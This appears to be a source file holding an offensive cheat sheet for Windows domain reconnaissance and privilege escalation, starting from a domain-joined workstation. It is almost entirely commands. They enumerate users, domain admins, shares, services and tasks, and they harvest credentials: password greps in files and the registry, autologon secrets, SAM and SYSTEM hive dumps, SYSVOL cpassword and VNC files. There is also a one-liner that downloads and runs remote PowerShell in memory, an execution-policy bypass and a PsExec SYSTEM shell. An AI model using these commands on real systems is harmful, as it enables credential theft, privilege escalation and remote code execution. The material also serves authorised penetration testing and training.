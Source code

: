 #This cheatsheet is for recon of a windows environnement starting with a simple computer member of the domain.

#get iP configuration
ipconfig /all 

#check existing route 
route print
Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex

#check local firewall state 
netsh firewall show state
Get-NetFirewallProfile


#check Arp Cache 
arp -a
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State


#Get account Information
whoami /all

#get information about the system
systeminfo

#Check Update :
wmic qfe list brief
wmic qfe get Caption,Description,HotFixID,InstalledOn
#Check Hosts file 
get-content C:\WINDOWS\System32\drivers\etc\hosts

#check privilege 
whoami /priv

#get all local user
net user
Get-LocalUser | ft Name,Enabled,LastLogon

#get all local group
net localgroup
Get-LocalGroup | ft Name


#check member of local group
net localgroup administrateurs

#get member of domain admin groups
net group /domain "admins du domaine"
net group /domain "Domain admins"

#get intel of a specific domain User 
net user /DOMAIN administrator

#Identify all domain controller 
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers

#Identify DnS server, it many case in WIndow Env it's a domain Controller
Get-DnsClientServerAddress -AddressFamily IPv4 | ft

#check password in file ;)
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
findstr /si password *.conf


#check password in all files
findstr /spin "password" *.*


#Get Applied GPO  
gpresult /h GPO.html /f

#identify network share 
net use

#list local share
Get-SmbShare
net share

#Get all share of remote server
net view \\servernameorIP

#Check auto logon credential

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"


#Acces SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system


#Check Right to identify leverafe for privesc
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "tout le monde"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "tout le monde"

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 


icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "tout le monde"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "tout le monde"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 


#List ScheduledTask

schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State,

#List service where the executable files is not in C:\Windows 
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" } | select PathName,DisplayName,Name

#List Unquoted service Path
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
#check password in regigistre
reg query HKCU /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s 

#PowerShell One-Line Script Execution in Memory
IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')

#powershell bypass execution policy
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1


#Powershell identify server 2003 in the current domain 
([adsisearcher]'(OperatingSystem=Windows Server 2003*)').FindAll()

#Powershell identify all Window in the current 
([adsisearcher]'(OperatingSystem=Windows*)').FindAll()

#Psexec to run a shell as system
 PSEXEC -i -s -d CMD

#Check cpassword in SYSVOL to identify 
findstr /si cpassword *.xml

#dump sam 

reg save hklm\sam sam.hiv
reg save hklm\system sys.hiv
#some other interessing files
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
